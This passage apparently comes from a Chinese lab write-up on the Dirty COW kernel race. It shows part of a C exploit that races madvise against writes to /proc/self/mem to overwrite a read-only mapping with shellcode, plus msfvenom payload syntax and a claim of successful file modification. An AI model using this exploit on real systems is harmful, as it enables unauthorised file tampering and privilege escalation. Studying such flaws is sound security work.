 ```c
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x10000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, sc, sc_len);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x10000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}


```

> msfvenom 使用格式如下：
>
> ```shell
> msfvenom -p <payload> <payload options> -f <format> -o <path>
> ```

## **四、实验结果与分析**

### 越权修改文件

我们先来测试利用该漏洞进行越权写文件：

运行，成功修改只读文件

![image.png](https://i.loli.net/2021/04/14/KBuysmMaRiToVHc.png)

运行成功，成功修改只读文件

### 提权
